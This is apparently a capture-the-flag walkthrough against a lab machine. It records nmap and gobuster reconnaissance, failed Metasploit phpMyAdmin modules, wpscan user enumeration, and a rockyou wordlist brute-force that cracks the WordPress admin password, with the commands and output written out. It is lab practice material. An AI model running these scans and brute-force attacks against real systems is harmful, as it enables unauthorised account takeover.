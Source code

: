 nmap result(./nmap_result)  
	```nmap -v -sV -p1-65535 $TARGET_IP | tee nmap_result```

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


	
gobuster result(./gobuster_on_80)  
	```gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt | tee gobuster_on_80```

	/blog                 (Status: 301) [Size: 311] [--> http://10.10.88.179/blog/]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.88.179/wordpress/]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.88.179/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.88.179/phpmyadmin/]
	/phpmyadmin/index.php            (Status: 200) [Size: 10531]
	/phpmyadmin/templates            (Status: 403) [Size: 277]  
	/phpmyadmin/themes.php           (Status: 200) [Size: 10532]
	/phpmyadmin/themes               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/themes/]
	/phpmyadmin/doc                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/doc/]   
	/phpmyadmin/license.php          (Status: 200) [Size: 10533]                                           
	/phpmyadmin/navigation.php       (Status: 200) [Size: 10536]                                           
	/phpmyadmin/js                   (Status: 301) [Size: 320] [--> http://10.10.88.179/phpmyadmin/js/]    
	/phpmyadmin/logout.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/libraries            (Status: 403) [Size: 277]                                             
	/phpmyadmin/changelog.php        (Status: 200) [Size: 10535]                                           
	/phpmyadmin/url.php              (Status: 302) [Size: 0] [--> /phpmyadmin/]                            
	/phpmyadmin/export.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/setup                (Status: 401) [Size: 459]                                             
	/phpmyadmin/sql.php              (Status: 200) [Size: 10529]                                           
	/phpmyadmin/sql                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/sql/]   
	/phpmyadmin/locale               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/locale/]
	/phpmyadmin/import.php           (Status: 200) [Size: 10532] 
	
After examining /phpmyadmin, seemingly mysql is behind the site.  

SQLMap didn't find any parameter injectable.  

Tried every exploit on metasploit as follows, but they didn't work.   


	0  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
	1  auxiliary/scanner/http/phpmyadmin_login                                normal     No     PhpMyAdmin Login Scanner
	2  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer
	3  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
	4  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
	5  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
	6  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
	7  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
	8  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()

Scanned $TARGET_IP/blog using wordpress scanning tool, wpscan  
	```wpscan --url 10.10.111.161/blog -e vp,u```
	One user found: admin  

Using this info, bruteforced passwords  
	```wpscan --url 10.10.111.161/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50```
	Password Cracked: Username: admin, Password: my2boys  

